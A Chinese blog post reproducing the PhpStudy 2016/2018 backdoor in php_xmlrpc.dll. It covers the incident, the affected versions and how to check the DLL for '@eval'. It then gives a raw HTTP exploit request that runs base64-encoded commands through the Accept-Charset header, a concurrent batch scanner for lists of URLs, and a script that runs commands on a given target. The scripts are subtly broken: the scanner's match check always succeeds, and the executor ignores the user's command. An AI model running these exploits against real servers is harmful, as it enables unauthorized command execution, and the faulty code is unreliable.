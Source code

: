 ﻿---
title: PhpStudy2018后门漏洞预警及漏洞复现&检测和执行POC脚本
date: 2020-06-03 17:44:51
categories: 
- 漏洞复现
tags: 
- 漏洞
- 后门
- POC
- PhpStudy2018
- 漏洞复现
---




## phpstudy介绍
Phpstudy是国内的一款免费的PHP调试环境的程序集成包，其通过集成Apache、PHP、MySQL、phpMyAdmin、ZendOPtimizer不同版本软件于一身，一次性安装无需配置即可直接使用，具有PHP环境调试和PHP开发功能。由于其免费且方便的特性，在国内有着近百万的PHP语言学习者和开发者用户

## 后门事件
2018年12月4日，西湖区公安分局网警大队接报案，某公司发现公司内有20余台计算机被执行危险命令，疑似远程控制抓取账号密码等计算机数据回传大量敏感信息。通过专业技术溯源进行分析，查明了数据回传的信息种类、原理方法、存储位置，并聘请了第三方鉴定机构对软件中的“后门”进行司法鉴定，鉴定结果是该“后门”文件具有控制计算机的功能，嫌疑人已通过该后门远程控制下载运行脚本实现收集用户个人信息。在2019年9月20日，网上爆出phpstudy存在“后门”。作者随后发布了声明。
于是想起自己安装过phpstudy软件，赶紧查一下是否存在后门文件，结果一看真存在后门，学个PHP真是不容易，软件被别人偷偷安装了后门。

<!--more-->

## 影响版本
目前已知受影响的phpstudy版本
phpstudy 2016版php-5.4
phpstudy 2018版php-5.2.17
phpstudy 2018版php-5.4.45

## 后门检测分析
通过分析，后门代码存在于\ext\php_xmlrpc.dll模块中
phpStudy2016和phpStudy2018自带的php-5.2.17、php-5.4.45
phpStudy2016路径
`php\php-5.2.17\ext\php_xmlrpc.dll`
`php\php-5.4.45\ext\php_xmlrpc.dll`
phpStudy2018路径
`PHPTutorial\php\php-5.2.17\ext\php_xmlrpc.dll`
`PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll`
用notepad打开此文件查找@eval，文件存在`@eval(%s(‘%s’))`证明漏洞存在，如图：
![](1.png)


## phpstudy 2018漏洞复现

启动phpstudy，选择php-5.2.17版本，使用burpsuit抓包（如果是本机127.0.0.1环境，代理去掉本地过滤，否则抓不到包）。

![](2.png)

大佬给出exp如下

``` 
GET /index.php HTTP/1.1
Host: yourip.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.25 Safari/537.36 Core/1.70.3730.400 QQBrowser/10.5.3805.400
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip,deflate
Accept-Charset:这里就是你要执行的代码命令（经过base64加密）
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
我们修改数据包查看命令`phpinfo();`执行情况

![](3.png)

继续修改数据包查看命令`echo system("net user");`执行情况

![](4.png)


漏洞复现成功
ps：我复现的时候这里有一个坑，就是直接repeater过来的数据包`Accept-Encoding`字段的参数是`gzip, deflate`,`deflate`前面有一个空格，去掉就可以成功执行命令了

## 后门检测脚本

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import gevent
from gevent import monkey

gevent.monkey.patch_all()
import requests as rq


def file_read(file_name="url.txt"):
    with open(file_name, "r") as f:
        return [i.replace("\n", "") for i in f.readlines()]


def check(url):
    '''
    if "http://" or "https://" not in url:
        url = "https://" + url
    '''
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36 Edg/77.0.235.27',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Sec-Fetch-Site': 'none',
        'accept-charset': 'ZWNobyBlZVN6eHU5Mm5JREFiOw==',  # 输出 eeSzxu92nIDAb
        'Accept-Encoding': 'gzip,deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }
    try:
        res = rq.get(url, headers=headers, timeout=20)
        if res.status_code == 200:
            if res.text.find('eeSzxu92nIDAb'):
                print("[存在漏洞] " + url)
    except:
        print("[超时] " + url)


if __name__ == '__main__':
    print("phpStudy 批量检测 (需要 gevent,requests 库)")
    print("使用之前，请将URL保存为 url.txt 放置此程序同目录下")
    input("任意按键开始执行..")
    tasks = [gevent.spawn(check, url) for url in file_read()]
    print("正在执行...请等候")
    gevent.joinall(tasks)
    wait = input("执行完毕 任意键退出...")

```

## 后门执行脚本

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import requests
import base64


def backdoor(url, command="system('calc.exe');"):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36 Edg/77.0.235.27',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Sec-Fetch-Site': 'none',
        'accept-charset': 'c3lzdGVtKCdjYWxjLmV4ZScpOw==',
        'Accept-Encoding': 'gzip,deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }
    command = base64.b64encode(command.encode('utf-8'))
    command = str(command, 'utf-8')
    result = requests.get(url, headers=headers, verify=False)
    if result.status_code == "200":
        print("执行完成")
    a = input("任意键退出...")


url = input("输入URL(例如:http://127.0.0.1:228/xx.php)\n")
command = input("输入命令 默认为 system('calc.exe'); (不想输入直接回车)\n")
backdoor(url, command)

```

## 参考
PhpStudyGhost后门供应链攻击事件及相关IOC
https://www.freebuf.com/column/214946.html
PHPStudy后门分析+复现&附批量Py脚本
https://mp.weixin.qq.com/s/Y29wifB6XTDcJN-RPDMwxg
phpstudy后门文件分析以及检测脚本
https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
Phpstudy官网于2016年被入侵，犯罪分子篡改软件并植入后门
https://mp.weixin.qq.com/s/CqHrDFcubyn_y5NTfYvkQw
phpstudy后门文件分析以及检测脚本
https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
phpStudy隐藏后门预警
https://www.cnblogs.com/0daybug/p/11571119.html